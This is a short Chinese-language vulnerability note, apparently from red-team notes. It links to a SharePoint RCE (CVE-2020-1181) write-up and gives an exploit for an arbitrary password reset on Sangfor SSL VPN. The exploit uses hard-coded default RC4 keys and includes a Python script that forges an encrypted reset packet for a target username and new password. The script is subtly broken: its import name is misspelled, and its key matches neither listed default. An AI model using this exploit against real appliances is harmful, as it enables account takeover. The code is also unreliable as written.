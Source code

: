 ### SharePoint远程代码执行 [CVE-2020-1181]

&emsp;&emsp;漏洞详情及利用方法见`https://www.anquanke.com/post/id/208819`

### 深信服 SSL VPN 任意密码重置

&emsp;&emsp;深信服VPN加密算法使用了默认的key，攻击者构利用key构造重置密码数据包从而修改任意用户的密码。利用条件需要登录账号。M7.6.6R1版本默认key为20181118，M7.6.1版本默认key为20100720。

```Python
from Crypto.Clipher import ARC4
from binascii import a2b_hex

def	myRC4(data,key):
    rc41=ARC4.new(key)
    encrypted=rc41.encrypt(data)
    return encrypted.encode('hex')

def rc4_decrpt_hex(data,key):
    rc41=ARC4.new(key)
    return rc41.decrypt(a2b_hex(data))
 
key='20200720'
data=r',username=TARGET_USERNAME,ip=127.0.0.1,grpid=1,pripsw=suiyi,newpsw=TARGET_PASSWORD,' 
print myRC4(data,key)
```

![](/img/HW-Vuln/HW28.png)

![](/img/HW-Vuln/HW29.png)

&emsp;&emsp;len为脚本计算后的结果。
